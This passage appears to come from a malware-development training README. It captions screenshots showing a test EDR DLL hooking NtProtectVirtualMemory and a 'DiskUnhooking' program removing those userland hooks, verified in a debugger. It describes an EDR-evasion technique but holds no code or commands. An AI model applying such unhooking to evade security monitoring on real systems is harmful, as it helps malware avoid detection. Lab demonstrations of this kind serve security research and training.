
MalDevEdr.dll is injected and running.

PrintState's output shows that the NtProtectVirtualMemory syscall is hooked.

When DiskUnhooking.exe resumes execution, MalDevEdr.dll detects NtProtectVirtualMemory being called. After that, DiskUnhooking.exe unhooks NtProtectVirtualMemory.

Attaching xdbg to the DiskUnhooking.exe process shows that the NtProtectVirtualMemory syscall is normal, even though MalDevEdr.dll is still injected. This proves that the userland hooks were successfully removed in the current process.

